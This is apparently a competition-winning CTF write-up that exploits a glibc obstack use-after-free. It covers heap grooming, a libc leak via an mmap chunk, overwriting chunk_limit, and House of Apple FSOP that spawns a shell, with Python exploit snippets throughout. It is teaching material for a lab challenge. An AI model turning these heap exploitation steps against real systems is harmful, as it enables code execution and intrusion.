







# Advent Of CTF 2025 - The Final RCE


> This write up was part of a writeup competition (that i won!! \:D) in Advent of CTF 2025.

:::info

This is it. After all these roadblocks, an opportunity has finally presented itself to pwn one of their internal systems. Capture the flag, and this should be the final blow to end their Christmas evil once and for all.

`nc ctf.csd.lol 2024`

:::


:::attachments
[Download challenge](/attachments/advent-of-ctf-2025-final-rce/aoc-final-rce-challenge-files.zip)
:::

This is one of the most interesting PWN challenges I’ve come accross since it uses `obstack` in GLIBC.
Running the program we could see that it’s setup like your standard CRUD heap exploitation challenge,


First let’s do checksec
```
File:     /mnt/d/ctf/AdventOfCTF2025/LASTDAY/chall_patched
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
RUNPATH:    b'.'
Stripped:   No
```
We could see that since it has `Partial RELRO` there is possibility that we could do GOT overwrite, but since PIE is enabled we wouldn’t be able to do that unless we have PIE leak.
## A Little Bit About `obstack`
First lets try to understand `obstack` and also when it calls `malloc` and `free` 
```c
struct obstack          /* control current object in current chunk */
{
  long chunk_size;              /* preferred size to allocate chunks in */
  struct _obstack_chunk *chunk; /* address of current struct obstack_chunk */
  char *object_base;            /* address of object we are building */
  char *next_free;              /* where to add next char to current object */
  char *chunk_limit;            /* address of char after current chunk */
  union
  {
    PTR_INT_TYPE tempint;
    void *tempptr;
  } temp;                       /* Temporary for some macros.  */
  int alignment_mask;           /* Mask of alignment for each object. */
  /* These prototypes vary based on 'use_extra_arg', and we use
     casts to the prototypeless function type in all assignments,
     but having prototypes here quiets -Wstrict-prototypes.  */
  struct _obstack_chunk *(*chunkfun) (void *, long);
  void (*freefun) (void *, struct _obstack_chunk *);
  void *extra_arg;              /* first arg for chunk alloc/dealloc funcs */
  unsigned use_extra_arg : 1;     /* chunk alloc/dealloc funcs take extra arg */
  unsigned maybe_empty_object : 1; /* There is a possibility that the current
				      chunk contains a zero-length object.  This
				      prevents freeing the chunk if we allocate
				      a bigger chunk to replace it. */
  unsigned alloc_failed : 1;      /* No longer used, as we now call the failed
				     handler on error, but retained for binary
				     compatibility.  */
};
```
The above is the `obstack` struct definition taken from GLIBC source code.
In the binary this is named `obs` and it is initialized in this line,
```c
_obstack_begin(&obs, 0, 0, (void *(*)(__int64))&malloc, (void (*)(void *))&free);
```
the TLDR of the struct fields and what they do are:
-   **`chunk`**: The current chunk (`_obstack_chunk`) we are in.
-   **`object_base`**: The start of the object we are currently building.
-   **`next_free`**: A pointer to the next available free byte in the current chunk.
-   **`chunk_limit`**: A pointer to the very end of the current chunk. If `next_free` hits this address, obstack knows it's full and calls `malloc`.
### So when is `malloc` called?
We could see from the challenge binary decomp here,
```c
  case 1LL:
	v7 = read_u64("idx: ");
	if ( v7 > 0x3F )
	  goto LABEL_28;
	nbytes = read_u64("size: ");
	if ( obs.chunk_limit - obs.next_free < (int)nbytes )
	  _obstack_newchunk(&obs, nbytes);
	obs.next_free += (int)nbytes;
	object_base = obs.object_base;
	if ( object_base == obs.next_free )
	  *((_BYTE *)&obs + 80) |= 2u;
	obs.next_free = (char *)((__int64)&obs.next_free[obs.alignment_mask] & ~obs.alignment_mask);
	if ( obs.chunk_limit < obs.next_free )
	  obs.next_free = obs.chunk_limit;
	obs.object_base = obs.next_free;
	*((_QWORD *)&chunks + v7) = object_base;
	sizes[v7] = nbytes;
	printf("data: ");
	read(0, object_base, nbytes);
	break;
```
that `malloc` is called (via `_obstack_newchunk`)  when `obs.chunk_limit - obs.next_free` is smaller than the size we wasnna allocate. Otherwise (if the size we wanna allocate fits in the remaining space), it simply increments `obs.next_free`. No malloc is called.
This is important since the exploit depends on overwriting the `obs.chunk_limit` to trick `obstack` to **not** trigger `malloc`.
## Vuln Analysis  
Right off the bat, we see an obvious UAF bug here,

```c
  case 2LL:
	v8 = read_u64("idx: ");
	if ( v8 > 0x3F )
	  goto LABEL_28;
	block = (struct _obstack_chunk *)*((_QWORD *)&chunks + v8);
	if ( obs.chunk >= block || (char *)block >= obs.chunk_limit )
	{
	  obstack_free(&obs, block); // not NULLed
	}
	else
	{
	  obs.object_base = (char *)block;
	  obs.next_free = obs.object_base;
	}
	puts("ok");
	break;
```
After doing `obstack_free`, the pointer that stores the chunk is not nulled in the `chunks[]` array which means we can use it again.  
Second, the allocate function has no limit so we can malloc an arbitrary size
```c
  case 1LL:
	v7 = read_u64("idx: ");
	if ( v7 > 0x3F )
	  goto LABEL_28;
		nbytes = read_u64("size: "); // no limit
	if ( obs.chunk_limit - obs.next_free < (int)nbytes )
	  _obstack_newchunk(&obs, nbytes);
	obs.next_free += (int)nbytes;
	object_base = obs.object_base;
	if ( object_base == obs.next_free )
	  *((_BYTE *)&obs + 80) |= 2u;
	obs.next_free = (char *)((__int64)&obs.next_free[obs.alignment_mask] & ~obs.alignment_mask);
	if ( obs.chunk_limit < obs.next_free )
	  obs.next_free = obs.chunk_limit;
	obs.object_base = obs.next_free;
	*((_QWORD *)&chunks + v7) = object_base;
	sizes[v7] = nbytes;
	printf("data: ");
	read(0, object_base, nbytes);
	break;
```
## Exploitation 
Now let's get into the exploitation. We're going to do some heap grooming to setup the heap such that we can achieve a heap overflow into an adjacent chunk's `_obstack_chunk` header.
We allocate 3 chunks to setup the UAF
```python
alloc(15, 0x200 * 7, b'PAD')
alloc(0, 0x200 * 7, b'NEWCHUNK')
alloc(1, 0x200, b'UAF')
```
This forces 3 chunks to be created, first for preventing consolidation, second one for shifting the UAF chunk and then the UAF chunk.

We're going to free chunk 0 and chunk 1 and then allocate a chunk that has a larger size than the first and second one.
```python
free(15)
alloc(2, 0xff0, b'VICTIM1')
alloc(3, 0xff0, b'VICTIM2')
```

Here we can see the UAF chunk we allocated landed in the second chunk and can overflow to the next one. Let's leverage this to leak libc.
### Leaking LIBC address
Before allocating the second chunk lets allocate another chunk that will be located near libc. If we `malloc` a chunk larger than 400 KBs,  libc will use mmap to allocate the memory instead of the heap (brk). mmaped memory segments are placed in a different region of memory that is adjacent to libc.

```c
  /*
     If have mmap, and the request size meets the mmap threshold, and
     the system supports mmap, and there are few enough currently
     allocated mmapped regions, try to directly map this request
     rather than expanding top.
   */

  if (av == NULL
      || ((unsigned long) (nb) >= (unsigned long) (mp_.mmap_threshold)
	  && (mp_.n_mmaps < mp_.n_mmaps_max)))
    {
      char *mm;
#if HAVE_TUNABLES
      if (mp_.hp_pagesize > 0 && nb >= mp_.hp_pagesize)
	{
	  /* There is no need to isse the THP madvise call if Huge Pages are
	     used directly.  */
	  mm = sysmalloc_mmap (nb, mp_.hp_pagesize, mp_.hp_flags, av);
	  if (mm != MAP_FAILED)
	    return mm;
	}
#endif
      mm = sysmalloc_mmap (nb, pagesize, 0, av);
      if (mm != MAP_FAILED)
	return mm;
      tried_mmap = true;
    }
```
Now lets look at the `_obstack_chunk` struct,
```c
struct _obstack_chunk {
    char *limit;               
    struct _obstack_chunk *prev; 
    char contents[0];          
};
```
If we set the `prev` to be the chunk that is mmaped we could, overflow the previous chunk, and then view the chunk to get the leak since it is now part of the chunk header.

```python
mmap = 0x400_000
free(15)

alloc(2, 0xff0, b'VICTIM1')
alloc(2, mmap, b'MMAP') 
alloc(3, 0xff0, b'VICTIM2')

# Leak Libc
edit(1, b'ABCDABCD' * 15)
leak_data = view(1)
leak_val = ua(leak_data[-6:])
logx.leak_val
libc.address = leak_val + 0x403ff0 # offset to libc base
logx.libc
```



### Overwriting `obs.chunk_limit`
Our goal is here to overwrite `obs.chunk_limit` so we can have a heap overflow in a mmaped region near libc. But remember that we can't overwrite it directly. We need to overwrite the `limit` of an obstack chunk and then have obstack load that big limit. When we free the huge mmap chunk, `obstack` must roll back its state to the previous chunk. Here is the actual code from `malloc/obstack.c`:
```c
void __obstack_free (struct obstack *h, void *obj) {
  plp = lp->prev;
  CALL_FREEFUN (h, lp); 
  lp = plp;             

  if (lp) {
      // ...
      h->chunk_limit = lp->limit; // Loads limit from the heap header
      h->chunk = lp;
  }
}
```
We'll use the heap overflow that we achieved to overwrite the `limit` field of the next chunk (physically in the heap **not** in the `obstack` linked list) and then free it to overwrite `obs.chunk_limit`.
```python
alloc(2, 0xff0, b'VICTIM1')
alloc(2, mmap, b'MMAP') 
alloc(3, 0xff0, b'VICTIM2')

# Leak Libc
edit(1, b'ABCDABCD' * 15)
leak_data = view(1)
leak_val = ua(leak_data[-6:])
logx.leak_val
libc.address = leak_val + 0x403ff0
logx.libc

huge_limit = 2**63 - 1
corrupt_chunk = flat(
    b'ABCDABCD' * 12, # padding to reach header
    0, 0x1071, # restore size and prev size so it doesnt break
    huge_limit, 0,
)
edit(1, corrupt_chunk)
free(2)
```

With `obs.chunk_limit` corrupted to a large size we basically have an arbitrary write to any LIBC address by allocating chunks with set sizes. To make this primitive useful we are going to do FSOP.
### FSOP to RCE
The FSOP technique I'll be using is `House of Apple` since it basically only requires you to write to the IO structs in LIBC with minimal setup. I'll be using the [pwncli](https://github.com/RoderickChan/pwncli) library to automate generating the payload. I won't be going into detail on how the `House of Apple` exploit works but you can read RoderickChan's detailed explanation [here](https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/)

All that this exploit requires is LIBC leak and ability to write to LIBC. To do that we only need to allocate a chunk that has the size as the offset from the mmaped `obstack` chunk to a LIBC IO struct (in my case `_IO_2_1_stdout_`) , since our limit is now basically infinite, this big allocation does not trigger malloc It simply advances the `next_free` from the heap all the way to LIBC's BSS.

After `_IO_2_1_stdout_` is overwritten with our payload, the next `FILE` operation that involves it will trigger `system("sh")`.

```python
IO_target = libc.sym['_IO_2_1_stdout_']

object_base = leak_val + 0x10 # the start of the obstack chunk
logx.object_base

target_addr = IO_target 
logx.target_addr

offset = target_addr - object_base
alloc(2, offset, b'\x00') 

from pwncli import IO_FILE_plus_struct
hoa = IO_FILE_plus_struct().house_of_apple2_execmd_when_do_IO_operation(
    IO_target,
    libc.sym['_IO_wfile_jumps'],
    libc.sym.system
)

alloc(3, 512, hoa)
p.interactive()
```
And just like that, we have shell.

## Full Exploit
https://gist.github.com/adamrayyana/a0dbd19667cb0416f53044eb8aa382d7
